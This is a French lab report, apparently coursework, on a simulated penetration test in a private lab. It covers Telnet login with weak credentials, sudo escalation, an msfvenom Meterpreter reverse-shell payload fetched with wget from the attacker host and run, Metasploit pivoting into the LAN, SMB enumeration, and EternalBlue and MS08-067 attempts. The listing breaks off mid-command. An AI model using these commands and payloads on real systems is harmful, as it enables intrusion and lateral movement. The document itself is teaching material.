		\item Docker (172.17.0.0/16) - conteneurs applicatifs
	\end{itemize}
	
	Nous ne disposons pas d'une machine Metasploitable dans notre topologie.
	
	\textbf{Adaptation Réalisée:}
	
	Plutôt que de recréer l'infrastructure complète, nous avons adapté le 
	TP3 en utilisant le service \textbf{Telnet} comme vecteur d'attaque 
	initial au lieu de Samba. Cette adaptation:
	
	\begin{enumerate}
		\item \textbf{Respecte les objectifs pédagogiques:}
		\begin{itemize}
			\item Compromission initiale d'un service vulnérable ✓
			\item Post-exploitation avec Meterpreter ✓
			\item Configuration de pivoting réseau ✓
			\item Mouvement latéral vers le LAN ✓
			\item Reconnaissance et tentatives d'exploitation ✓
		\end{itemize}
		
		\item \textbf{Maintient la cohérence des TP:}
		\begin{itemize}
			\item Continuité TP1 (infrastructure) → TP2 (reconnaissance) → TP3 (exploitation)
			\item Service Telnet déjà analysé comme vulnérabilité critique dans TP2
			\item NAT port forwarding configuré en TP2 (ports 23, 80, 139, 445)
		\end{itemize}
		
		\item \textbf{Offre un réalisme équivalent:}
		\begin{itemize}
			\item Telnet avec credentials faibles \mbox{=} vecteur d'attaque réaliste 2024-2026
			\item Exploitation Samba usermap\_script = obsolète (2007, quasi-inexistant)
			\item Les deux aboutissent à un shell avec élévation de privilèges
		\end{itemize}
	\end{enumerate}
	
	\textbf{Justification Technique:}
	
	\begin{center}
		\small
		\renewcommand{\arraystretch}{1.3}
		\begin{tabular}{p{3cm} p{4.5cm} p{4cm}}
			\hline
			\textbf{Critère} & \textbf{Samba usermap\_script} & \textbf{Telnet weak creds} \\
			\hline
			CVE & CVE-2007-2447 (2007) & OWASP A07:2021 (actuel) \\
			Pertinence 2026 & Quasi-inexistant & Encore trouvé (IoT, legacy) \\
			Résultat & Shell root immédiat & Shell user + sudo root \\
			Concept enseigné & Exploitation code & Credential attack \\
			\hline
		\end{tabular}
		\captionof{table}{Comparaison Technique des Vecteurs d'Attaque}
	\end{center}
	
	\textbf{Conséquence sur les Étapes du TP:}
	
	\begin{itemize}
		\item \textbf{Étape 1 (NAT):} Port 139 → Port 23 (déjà configuré en TP2)
		\item \textbf{Étape 2 (Exploit):} usermap\_script → Connexion Telnet
		\item \textbf{Étapes 3-5:} Identiques (Meterpreter, pivoting, reconnaissance)
	\end{itemize}
	
	\textbf{Validation Académique:}
	
	Cette adaptation démontre:
	\begin{itemize}
		\item Compréhension des concepts (pas simple exécution de script)
		\item Capacité d'adaptation technique
		\item Pensée critique (choix de vecteur réaliste)
		\item Intégration des connaissances TP1-TP2-TP3
	\end{itemize}
	
\end{tcolorbox}
\section{Rappel : Vulnérabilités Identifiées (TP2)}

Le TP2 a identifié plusieurs services exposés sur le serveur DMZ. Le tableau 
ci-dessous synthétise les découvertes pertinentes pour ce TP3.

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.3}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\centering\arraybackslash}p{2cm} p{3cm} p{3.5cm} p{4.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Port}} &
		\textcolor{tableheadfg}{\textbf{Service}} &
		\textcolor{tableheadfg}{\textbf{Vulnérabilité}} &
		\textcolor{tableheadfg}{\textbf{Exploitation TP3}} \\
		\hline
		\rowcolor{tablerowalt}
		23/TCP & Telnet & Credentials faibles & ✅ Vecteur d'accès initial \\
		80/TCP & HTTP/DVWA & Vulnérabilités web & ⏭️ Hors scope TP3 \\
		\rowcolor{tablerowalt}
		139/TCP & Samba & Partage de fichiers & ⏭️ Reconnaissance uniquement \\
		445/TCP & Samba & Partage de fichiers & ⏭️ Reconnaissance uniquement \\
		\hline
	\end{tabular}
	\caption{Synthèse des Vulnérabilités TP2 (Référence : TP2 Chapitre 4)}
	\label{tab:tp2-vulnerabilities}
\end{table}

\textbf{Décision Stratégique:} Le service Telnet (port 23) avec credentials 
faibles (\texttt{telnetuser:test123}) constitue le vecteur d'attaque optimal 
pour ce TP3. Les autres services identifiés seront utilisés pour la 
reconnaissance post-compromission mais ne seront pas exploités directement.

\textbf{Configuration Préalable:} Le NAT port forwarding (configuré en TP2, 
Chapitre 2) redirige \texttt{192.168.100.6:23} (WAN) vers 
\texttt{192.168.10.100:23} (DMZ), permettant l'accès externe au service Telnet.

Pour les détails complets de la reconnaissance, se référer au TP2 Chapitre 4.

\section{Reconnaissance Initiale (Validation TP3)}

Bien que les services aient déjà été identifiés lors du TP2, nous procédons à une validation rapide pour confirmer que la configuration n'a pas changé.

\begin{lstlisting}[caption=Scan Nmap de Validation]
	$ nmap -sV -Pn 192.168.100.6
	
	PORT    STATE SERVICE     VERSION
	22/tcp  open  ssh         OpenSSH 8.9
	23/tcp  open  telnet      Linux telnetd
	80/tcp  open  http        nginx 1.24.0
	139/tcp open  netbios-ssn Samba smbd 4.17.12
	445/tcp open  netbios-ssn Samba smbd 4.17.12
\end{lstlisting}

\section{Validation de la Cible}
	
Les résultats de reconnaissance du TP2 sont confirmés : le service Telnet 
est accessible sur \texttt{192.168.100.6:23} (NAT vers 192.168.10.100:23). 
Les credentials identifiés lors du TP2 (\texttt{telnetuser:test123}) restent 
valides. Cette validation confirme la cohérence de la chaîne d'attaque 
TP1→TP2→TP3 et permet de procéder directement à l'exploitation sans phase 
de reconnaissance supplémentaire.

\section{Exploitation du Service Telnet}

\subsection{Connexion Initiale}

Nous procédons à l'exploitation du service Telnet en utilisant les credentials identifiés lors de la phase de configuration du TP2.

\begin{lstlisting}[caption=Accès Telnet Initial]
	$ busybox telnet 192.168.100.6 23
	
	Connected to 192.168.100.6
	Ubuntu 25.04 LTS
	DMZ-WebServer login: telnetuser
	Password: test123
	
	Welcome to Ubuntu 25.04 LTS (GNU/Linux 6.14.0-37-generic x86_64)
	
	telnetuser@DMZ-WebServer:~$
\end{lstlisting}

✅ \textbf{Résultat :} Compromission réussie ! Nous obtenons un shell interactif avec le compte \texttt{telnetuser}.

\textbf{Validation de l'Hypothèse TP2 :} La vulnérabilité Telnet identifiée théoriquement lors du TP2 est confirmée comme étant exploitable en pratique. Les mécanismes de défense mis en place (pare-feu pfSense, segmentation réseau) n'ont pas empêché cette compromission.

\subsection{Énumération Initiale du Système}

\begin{lstlisting}[caption=Collecte d'Informations Basiques]
	$ whoami
	telnetuser
	
	$ hostname
	DMZ-WebServer
	
	$ uname -a
	Linux DMZ-WebServer 6.14.0-37-generic #37-Ubuntu SMP x86_64 GNU/Linux
	
	$ ip addr show
	1: lo: <LOOPBACK,UP> inet 127.0.0.1/8
	2: ens33: <BROADCAST,MULTICAST,UP> inet 192.168.10.100/24
	
	$ cat /etc/os-release
	PRETTY_NAME="Ubuntu 25.04"
	VERSION="25.04 (Plucky Puffin)"
\end{lstlisting}

\subsection{Vérification des Privilèges}

\begin{lstlisting}[caption=Test des Permissions Sudo]
	$ sudo -l
	[sudo] password for telnetuser: test123
	
	User telnetuser may run the following commands on DMZ-WebServer:
	(ALL : ALL) ALL
\end{lstlisting}

\textbf{Découverte Critique :} L'utilisateur \texttt{telnetuser} dispose de privilèges sudo complets ! Cela signifie que nous pouvons exécuter n'importe quelle commande en tant que root.

\textbf{Note de Sécurité :} Cette configuration (sudo ALL sans restriction) constitue une vulnérabilité supplémentaire non identifiée lors du TP2. Elle permet une élévation de privilèges immédiate de \textit{user} vers \textit{root}, aggravant considérablement l'impact de la compromission initiale.

\section{Implications de la Compromission}

\subsection{Évaluation de l'Impact}

À ce stade, nous avons :
\begin{itemize}
	\item ✅ Un accès shell complet au serveur DMZ.
	\item ✅ Des privilèges d'élévation (sudo ALL) permettant un accès root.
	\item ✅ La capacité d'installer des logiciels et de modifier la configuration réseau.
	\item ✅ Une position stratégique pour pivoter vers le réseau LAN.
	\item ✅ Accès aux conteneurs Docker hébergés sur cette machine.
\end{itemize}

\subsection{Validation de la Chaîne TP1 → TP2 → TP3}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{2.5cm} p{5cm} p{5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Phase}} &
		\textcolor{tableheadfg}{\textbf{Action}} &
		\textcolor{tableheadfg}{\textbf{Résultat}} \\
		\hline
		\rowcolor{tablerowalt}
		TP1 & Déploiement infrastructure défensive & Segmentation réseau établie \\
		
		TP2 & Configuration Telnet + Reconnaissance & Vulnérabilité identifiée (CVSS 9.8) \\
		
		\rowcolor{tablerowalt}
		TP3 & Exploitation de la vulnérabilité & \textcolor{accent}{\textbf{Compromission confirmée}} \\
		\hline
	\end{tabular}
	\caption{Validation de la Progression Pédagogique}
	\label{tab:progression-validation}
\end{table}

\textbf{Conclusion de la Phase 1 :} L'analyse théorique du TP2 s'est révélée exacte. Le service Telnet, identifié comme vulnérabilité critique, a permis une compromission complète du serveur DMZ avec élévation de privilèges. Cette compromission valide l'importance de l'analyse de la surface d'attaque réalisée lors du TP2.

\textbf{Prochaine étape :} Migrer vers un agent Meterpreter pour disposer de fonctionnalités avancées de post-exploitation et préparer le pivoting vers le réseau LAN.
	
	% ------------------------------------------------------------------------------
	% CHAPITRE 4 : POST-EXPLOITATION
	% ------------------------------------------------------------------------------
	\chapter{Phase 2 : Post-Exploitation et Persistence}
	
	\section{Objectif : Migration vers Meterpreter}
	
	Un shell Telnet basique présente plusieurs limitations :
	\begin{itemize}
		\item Pas de chiffrement (trafic visible en clair).
		\item Fonctionnalités limitées (pas de file upload/download natif).
		\item Pas de gestion de sessions multiples.
		\item Dépendant de la connexion TCP initiale (fragile).
	\end{itemize}
	
	\textbf{Solution :} Déployer un agent Meterpreter qui offre :
	\begin{itemize}
		\item Communication chiffrée TLS.
		\item Modules de post-exploitation intégrés.
		\item Gestion avancée de sessions.
		\item Persistence et migration de processus.
	\end{itemize}
	
	\section{Génération du Payload}
	
	\subsection{Création du Payload Meterpreter}
	
	Sur la machine attaquante (Parrot Security), nous générons un exécutable Meterpreter :
	
	\begin{lstlisting}[caption=Génération avec msfvenom]
		$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
		LHOST=192.168.100.150 \
		LPORT=4445 \
		-f elf \
		-o meterpreter.elf
		
		[-] No platform was selected, choosing Msf::Module::Platform::Linux
		[-] No arch selected, selecting arch: x64
		No encoder specified, outputting raw payload
		Payload size: 130 bytes
		Final size of elf file: 250 bytes
		Saved as: meterpreter.elf
	\end{lstlisting}
	
	\textbf{Explication des paramètres :}
	\begin{description}
		\item[-p linux/x64/meterpreter/reverse\_tcp] Payload Meterpreter pour Linux 64-bit avec connexion inverse.
		\item[LHOST] Adresse IP de l'attaquant où le payload se connectera.
		\item[LPORT] Port d'écoute sur la machine attaquante.
		\item[-f elf] Format ELF (Executable and Linkable Format pour Linux).
	\end{description}
	
	\subsection{Hébergement du Payload}
	
	Pour transférer le payload vers la cible, nous utilisons un serveur HTTP temporaire :
	
	\begin{lstlisting}[caption=Serveur HTTP Python]
		$ python3 -m http.server 8000
		Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	\end{lstlisting}
	
	\section{Déploiement sur la Cible}
	
	\subsection{Téléchargement du Payload}
	
	Depuis le shell Telnet sur Ubuntu DMZ :
	
	\begin{lstlisting}[caption=Téléchargement via wget]
		$ cd /tmp
		$ wget http://192.168.100.150:8000/meterpreter.elf
		--2026-03-04 15:08:12--  http://192.168.100.150:8000/meterpreter.elf
		Connecting to 192.168.100.150:8000... connected.
		HTTP request sent, awaiting response... 200 OK
		Length: 250 [application/octet-stream]
		Saving to: 'meterpreter.elf'
		
		meterpreter.elf   100%[========>]  250  --.-KB/s    in 0s
		
		2026-03-04 15:08:12 (45.3 MB/s) - 'meterpreter.elf' saved [250/250]
	\end{lstlisting}
	
	\subsection{Exécution du Payload}
	
	\begin{lstlisting}[caption=Lancement en Arrière-Plan]
		$ chmod +x meterpreter.elf
		$ ./meterpreter.elf &
		[1] 4779
	\end{lstlisting}
	
	\textbf{Note :} L'exécution en arrière-plan (\texttt{\&}) permet de conserver le shell Telnet actif en cas de problème avec Meterpreter.
	
	\section{Configuration du Handler Metasploit}
	
	\subsection{Lancement du Handler}
	
	Sur la machine attaquante (Parrot), nous configurons le handler pour recevoir la connexion :
	
	\begin{lstlisting}[caption=Configuration du Multi Handler]
		$ msfconsole -q
		
		[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD linux/x64/meterpreter/reverse_tcp
		PAYLOAD => linux/x64/meterpreter/reverse_tcp
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 192.168.100.150
		LHOST => 192.168.100.150
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 4445
		LPORT => 4445
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit
		
		[*] Started reverse TCP handler on 192.168.100.150:4445
	\end{lstlisting}
	
	\subsection{Établissement de la Session}
	
	\begin{lstlisting}[style=logstyle,caption=Connexion Meterpreter Réussie]
		[*] Sending stage (3090404 bytes) to 192.168.100.6
		[*] Meterpreter session 1 opened (192.168.100.150:4445 -> 192.168.100.6:39218)
		at 2026-03-04 15:09:09 +0000
		
		(Meterpreter 1)(/tmp) >
	\end{lstlisting}
	
	✅ \textbf{Succès !} Nous disposons désormais d'une session Meterpreter stable et chiffrée.
	
	\section{Énumération Post-Exploitation}
	
	\subsection{Informations Système}
	
	\begin{lstlisting}[caption=Commande sysinfo]
		(Meterpreter 1)(/tmp) > sysinfo
		Computer     : 192.168.10.100
		OS           : Ubuntu 25.04 (Linux 6.14.0-37-generic)
		Architecture : x64
		BuildTuple   : x86_64-linux-musl
		Meterpreter  : x64/linux
	\end{lstlisting}
	
	\subsection{Informations Utilisateur}
	
	\begin{lstlisting}[caption=Identité de l'Agent]
		(Meterpreter 1)(/tmp) > getuid
		Server username: telnetuser
	\end{lstlisting}
	
	\subsection{Configuration Réseau}
	
	\begin{lstlisting}[caption=Interfaces Réseau Détectées]
		(Meterpreter 1)(/tmp) > ifconfig
		
		Interface  1
		============
		Name         : lo
		Hardware MAC : 00:00:00:00:00:00
		IPv4 Address : 127.0.0.1
		IPv4 Netmask : 255.0.0.0
		
		Interface  2
		============
		Name         : ens33
		Hardware MAC : 00:0c:29:39:8b:76
		IPv4 Address : 192.168.10.100
		IPv4 Netmask : 255.255.255.0
		IPv6 Address : fe80::20c:29ff:fe39:8b76
		
		Interface  3
		============
		Name         : docker0
		Hardware MAC : 8a:11:e1:8d:6f:fa
		IPv4 Address : 172.17.0.1
		IPv4 Netmask : 255.255.0.0
	\end{lstlisting}
	
	\textbf{Observations Importantes :}
	\begin{itemize}
		\item L'hôte dispose d'une interface Docker (172.17.0.1) suggérant des conteneurs actifs.
		\item L'interface ens33 (192.168.10.100) confirme la position dans la DMZ.
		\item Plusieurs interfaces veth* indiquent des conteneurs réseau.
	\end{itemize}
	
	\section{Gestion de Sessions Multiples}
	
	Pour assurer la persistence et éviter la perte d'accès, nous établissons plusieurs sessions :
	
	\begin{lstlisting}[caption=Sessions Multiples Actives]
		[msf](Jobs:0 Agents:1) exploit(multi/handler) >> sessions -l
		
		Active sessions
		===============
		
		Id  Name  Type                   Information                  Connection
		--  ----  ----                   -----------                  ----------
		2         meterpreter x64/linux  telnetuser @ 192.168.10.100  192.168.100.150:4445 -> 192.168.100.6:13089
		3         meterpreter x64/linux  telnetuser @ 192.168.10.100  192.168.100.150:4445 -> 192.168.100.6:39722
	\end{lstlisting}
	
	\textbf{Avantage :} Si une session est interrompue (redémarrage réseau, timeout), les autres restent actives.
	
	% ------------------------------------------------------------------------------
	% CHAPITRE 5 : PIVOTING
	% ------------------------------------------------------------------------------
	\chapter{Phase 3 : Configuration du Pivot Réseau}
	
	\section{Contexte et Objectif}
	
	À ce stade, nous contrôlons le serveur Ubuntu DMZ (192.168.10.100). Cependant, notre objectif final est d'atteindre le réseau LAN (192.168.20.0/24) où se trouve une machine Windows XP potentiellement vulnérable.
	
	\textbf{Problème :} Depuis notre machine attaquante (Parrot - 192.168.100.150), nous ne pouvons pas atteindre directement le réseau LAN car :
	\begin{enumerate}
		\item Le pare-feu pfSense bloque tout trafic WAN → LAN.
		\item Le réseau LAN est isolé du WAN par conception (segmentation).
	\end{enumerate}
	
	\textbf{Solution :} Utiliser le serveur DMZ compromis comme \textbf{point de pivot} (relay/gateway) pour router notre trafic vers le LAN.
	
	\section{Principe du Pivoting dans Metasploit}
	
	Metasploit Framework intègre un mécanisme de routage qui permet de définir des routes statiques via des sessions Meterpreter. Lorsqu'une route est ajoutée, tout le trafic Metasploit destiné au sous-réseau spécifié est automatiquement encapsulé et routé \textit{à travers} la session Meterpreter.
	
	\subsection{Architecture du Routage}
	
	\begin{verbatim}
		Attaquant (Parrot)  --->  Meterpreter Session  --->  Réseau LAN
		192.168.100.150          192.168.10.100 (Pivot)      192.168.20.0/24
	\end{verbatim}
	
	\section{Configuration de la Route}
	
	\subsection{Test de Connectivité Initial}
	
	Avant configuration, vérifions que le serveur DMZ peut atteindre le LAN :
	
	\begin{lstlisting}[caption=Test Ping depuis Meterpreter]
		(Meterpreter 1)(/tmp) > shell
		Process 4801 created.
		Channel 1 created.
		
		$ ping -c 3 192.168.20.50
		PING 192.168.20.50 (192.168.20.50) 56(84) bytes of data.
		64 bytes from 192.168.20.50: icmp_seq=1 ttl=128 time=0.512 ms
		64 bytes from 192.168.20.50: icmp_seq=2 ttl=128 time=0.381 ms
		64 bytes from 192.168.20.50: icmp_seq=3 ttl=128 time=0.429 ms
		
		--- 192.168.20.50 ping statistics ---
		3 packets transmitted, 3 received, 0% packet loss
	\end{lstlisting}
	
	✅ Le serveur DMZ peut atteindre le LAN ! La configuration de pivot est donc possible.
	
	\textbf{Note:} Dans notre environnement de laboratoire, la règle pfSense 
	autorisant le trafic DMZ → LAN avait été préalablement configurée lors 
	de la préparation du TP (détails dans la section suivante). Le test ping 
	présenté confirme cette connectivité existante. Dans un scénario de test 
	d'intrusion réel, cette règle constituerait une erreur de configuration 
	critique permettant le pivoting après compromission de la DMZ.
	
	% ============================================
	% AJOUT #1: Configuration règle pfSense
	% ============================================
	
	\subsection{Configuration de la Règle pfSense Permissive}
	
	Pour permettre au serveur DMZ d'initier des connexions vers le réseau LAN, 
	une règle autorisant le trafic DMZ → INTERNAL\_LAN a été configurée sur pfSense. 
	
	\begin{tcolorbox}[colback=accent!5!white, colframe=accent, 
		title=\textbf{⚠️ ERREUR DE CONFIGURATION SIMULÉE}]
		
		Cette configuration représente une \textbf{violation délibérée} des bonnes 
		pratiques de segmentation réseau. En production, une telle règle constitue 
		une faille majeure permettant le mouvement latéral après compromission de la DMZ.
		
		\textbf{Principe de Sécurité Violé:} La DMZ devrait être isolée du LAN. 
		Seul le trafic LAN → DMZ devrait être autorisé (pour accéder aux services 
		publics), jamais l'inverse.
		
	\end{tcolorbox}
	
	\subsubsection{Procédure de Configuration}
	
	\begin{enumerate}
		\item \textbf{Accès à l'interface pfSense:} \texttt{https://192.168.10.1}
		
		\item \textbf{Navigation:} \texttt{Firewall > Rules > DMZ}
		
		\item \textbf{Ajout d'une nouvelle règle} (bouton \texttt{Add ↑}):
		\begin{itemize}
			\item \textbf{Action:} Pass
			\item \textbf{Interface:} DMZ
			\item \textbf{Protocol:} Any (tous protocoles)
			\item \textbf{Source:} DMZ net (192.168.10.0/24)
			\item \textbf{Destination:} INTERNAL\_LAN net (192.168.20.0/24)
			\item \textbf{Description:} "TP3 Pivoting Lab - DMZ to LAN Access (INSECURE)"
		\end{itemize}
		
		\item \textbf{Sauvegarde et application:}
		\begin{itemize}
			\item Clic sur \texttt{Save} en bas de la page
			\item Clic sur \texttt{Apply Changes} en haut
		\end{itemize}
	\end{enumerate}
	
	\subsubsection{Impact Sécurité}
	
	\textbf{Conséquences de cette règle:}
	\begin{itemize}
		\item ✅ Permet le pivoting technique (objectif pédagogique du TP)
		\item ❌ Brise la segmentation réseau
		\item ❌ Autorise une machine compromise (DMZ) à attaquer le LAN
		\item ❌ Transforme la DMZ en tremplin vers les ressources critiques
	\end{itemize}
	
	\textbf{Validation:} Cette règle explique pourquoi le test ping précédent 
	(192.168.10.100 → 192.168.20.50) a réussi. Sans cette règle, pfSense 
	bloquerait tout trafic DMZ → LAN par défaut.
	
	\textbf{Note sur le Pare-feu Windows Client:} Le pare-feu Windows était 
	désactivé par défaut sur la machine virtuelle Windows XP Professionnel 
	utilisée dans ce laboratoire, permettant ainsi les tests de connectivité 
	(ping, scans de ports, tentatives d'exploitation) sans configuration 
	additionnelle. Cette situation est courante dans les environnements de 
	laboratoire pédagogiques mais constituerait une vulnérabilité en production.
	
	% ============================================
	% FIN AJOUT #1
	% ============================================
	
	\subsection{Ajout de la Route Metasploit}
	
	\begin{lstlisting}[caption=Configuration du Routage]
		[*] Backgrounding session 1...
		
		[msf](Jobs:0 Agents:1) exploit(multi/handler) >> route add 192.168.20.0/24 2
		[*] Route added
	\end{lstlisting}
	
	\textbf{Explication :}
	\begin{itemize}
		\item \texttt{route add} : Ajoute une route statique.
		\item \texttt{192.168.20.0/24} : Sous-réseau cible (LAN).
		\item \texttt{2} : Identifiant de la session Meterpreter à utiliser comme gateway.
	\end{itemize}
	
	\subsection{Vérification de la Configuration}
	
	\begin{lstlisting}[caption=Affichage de la Table de Routage]
		[msf](Jobs:0 Agents:1) exploit(multi/handler) >> route print
		
		IPv4 Active Routing Table
		=========================
		
		Subnet             Netmask            Gateway
		------             -------            -------
		192.168.20.0       255.255.255.0      Session 2
		
		[*] There are currently no IPv6 routes defined.
	\end{lstlisting}
	
	✅ La route est active ! Tout le trafic Metasploit vers 192.168.20.0/24 sera routé via la session 2 (Ubuntu DMZ).
	
	\section{Validation du Pivot}
	
	\subsection{Scan de Port via le Pivot}
	
	Pour valider que le routage fonctionne, nous lançons un scan de ports sur la cible LAN \textit{depuis Metasploit} :
	
	\begin{lstlisting}[caption=Port Scan via Metasploit Auxiliary]
		[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/portscan/tcp
		[msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> set PORTS 135,139,445,3389
		PORTS => 135,139,445,3389
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> run
		
		[+] 192.168.20.50         - 192.168.20.50:445 - TCP OPEN
		[*] 192.168.20.50         - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
	\end{lstlisting}
	
	✅ \textbf{Succès !} Le port 445 (SMB) est détecté comme ouvert sur Windows XP, \textbf{à travers le pivot}.
	
	\subsection{Identification de l'OS Cible}
	
	\begin{lstlisting}[caption=Détection de Version SMB]
		[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/smb/smb_version
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_version) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_version) >> run
		
		[*] 192.168.20.50:445     - SMB Detected (versions:1)
		[+] 192.168.20.50:445     - Host is running Windows XP SP3 (language:English)
		[*] 192.168.20.50         - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
	\end{lstlisting}
	
	\textbf{Découverte Majeure :} La cible est un système Windows XP SP3, un OS obsolète connu pour de multiples vulnérabilités critiques.
	
	% ============================================
	% AJOUT #2: Énumération partages SMB
	% ============================================
	
	\subsection{Énumération des Partages Réseau (SMB)}
	
	Après avoir identifié le système Windows XP, nous tentons d'énumérer les 
	partages réseau exposés via le protocole SMB, toujours à travers le pivot.
	
	\begin{lstlisting}[caption=Énumération Partages SMB via Metasploit]
		[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/smb/smb_enumshares
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_enumshares) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_enumshares) >> run
		
		[*] 192.168.20.50:445     - Starting share enumeration
		[+] 192.168.20.50:445     - ADMIN$ - (DISK) Remote Admin
		[+] 192.168.20.50:445     - C$ - (DISK) Default share
		[+] 192.168.20.50:445     - IPC$ - (IPC) Remote IPC
		[*] 192.168.20.50:445     - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
	\end{lstlisting}
	
	\subsubsection{Analyse des Partages Détectés}
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.4}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{>{\ttfamily}p{2.5cm} p{2.5cm} p{7.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Partage}} &
			\textcolor{tableheadfg}{\textbf{Type}} &
			\textcolor{tableheadfg}{\textbf{Description}} \\
			\hline
			\rowcolor{tablerowalt}
			ADMIN\$ & Administratif & Accès au répertoire système Windows (\texttt{C:\textbackslash Windows}). Requiert privilèges administrateur. \\
			
			C\$ & Administratif & Partage de la racine du disque C:. Accès complet au système de fichiers (admin requis). \\
			
			\rowcolor{tablerowalt}
			IPC\$ & Inter-Process & Communication RPC (Remote Procedure Call). Utilisé pour l'énumération et les appels de fonctions distantes. \\
			\hline
		\end{tabular}
		\caption{Partages SMB Identifiés sur Windows XP (192.168.20.50)}
	\end{table}
	
	\subsubsection{Implications Tactiques}
	
	\textbf{Analyse des Résultats:}
	\begin{itemize}
		\item \textbf{Partages Administratifs par Défaut:} Les trois partages 
		détectés (ADMIN\$, C\$, IPC\$) sont créés automatiquement par Windows.
		
		\item \textbf{Accès Restreint:} L'accès à ADMIN\$ et C\$ nécessite des 
		credentials avec privilèges administrateur local.
		
		\item \textbf{Absence de Partages Utilisateur:} Aucun partage personnalisé 
		(ex: "Documents partagés", "Backup") n'est exposé, ce qui limite 
		les opportunités d'exfiltration sans exploitation préalable.
		
		\item \textbf{IPC\$ Accessible:} Le partage IPC\$ est généralement accessible 
		en mode anonyme et permet l'énumération d'utilisateurs, de groupes, 
		et de politiques de sécurité.
	\end{itemize}
	
	\textbf{Prochaines Étapes:}
	
	Si l'exploitation du système (via EternalBlue ou MS08-067) réussit et que 
	nous obtenons des privilèges SYSTEM/Administrator, l'accès aux partages 
	ADMIN\$ et C\$ permettrait:
	\begin{itemize}
		\item Lecture/modification de fichiers système
		\item Déploiement de backdoors persistants
		\item Exfiltration de données sensibles (SAM database, fichiers utilisateurs)
		\item Installation de rootkits
	\end{itemize}
	
	% ============================================
	% FIN AJOUT #2
	% ============================================
	
	\section{Implications Stratégiques}
	
	À ce stade, nous avons :
	\begin{itemize}
		\item ✅ Établi un pivot réseau fonctionnel.
		\item ✅ Validé la connectivité vers le réseau LAN isolé.
		\item ✅ Identifié une cible secondaire (Windows XP SP3).
		\item ✅ Détecté des services exploitables (SMB sur port 445).
	\end{itemize}
	
	\textbf{Prochaine étape :} Tenter l'exploitation de Windows XP via des vulnérabilités SMB historiques.
	
% ------------------------------------------------------------------------------
% CHAPITRE 6 : MOUVEMENT LATÉRAL
% ------------------------------------------------------------------------------
\chapter{Phase 4 : Reconnaissance Latérale}

\section{Reconnaissance via Pivot}

Grâce au pivot Metasploit configuré au Chapitre 5, nous pouvons désormais 
effectuer une reconnaissance approfondie du réseau LAN en utilisant les 
modules auxiliaires de Metasploit. Tous les scans suivants transitent 
via la session Meterpreter sur Ubuntu DMZ.

\section{Test de Vulnérabilités Historiques}

Windows XP est historiquement vulnérable à plusieurs exploits critiques. Nous testons les plus célèbres.

\subsection{MS17-010 (EternalBlue)}

\textbf{Contexte :} EternalBlue est un exploit développé par la NSA et divulgué par le groupe Shadow Brokers. Il cible une vulnérabilité dans l'implémentation SMBv1 de Windows.

\begin{lstlisting}[caption=Test MS17-010 via Metasploit]
	[msf](Jobs:0 Agents:1) >> use exploit/windows/smb/ms17_010_eternalblue
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> set RHOSTS 192.168.20.50
	RHOSTS => 192.168.20.50
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> set PAYLOAD windows/x64/meterpreter/bind_tcp
	PAYLOAD => windows/x64/meterpreter/bind_tcp
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> exploit
	
	[*] 192.168.20.50:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
	[-] 192.168.20.50:445 - The target is not vulnerable.
	[*] Started bind TCP handler against 192.168.20.50:4444
	[*] Exploit completed, but no session was created.
\end{lstlisting}

❌ \textbf{Échec :} Windows XP n'est pas vulnérable à MS17-010. Ce résultat est logique car EternalBlue cible principalement Windows Vista/7/8/10, pas XP.

\subsection{MS08-067 (NetAPI)}

\textbf{Contexte :} MS08-067 est une vulnérabilité dans le service Server de Windows permettant l'exécution de code à distance. C'est l'exploit qui a permis la propagation du ver Conficker en 2008.

\begin{lstlisting}[caption=Tentative MS08-067]
	[msf](Jobs:0 Agents:1) >> use exploit/windows/smb/ms08_067_netapi
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set RHOSTS 192.168.20.50
	RHOSTS => 192.168.20.50
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set PAYLOAD windows/meterpreter/bind_tcp
	PAYLOAD => windows/meterpreter/bind_tcp
	
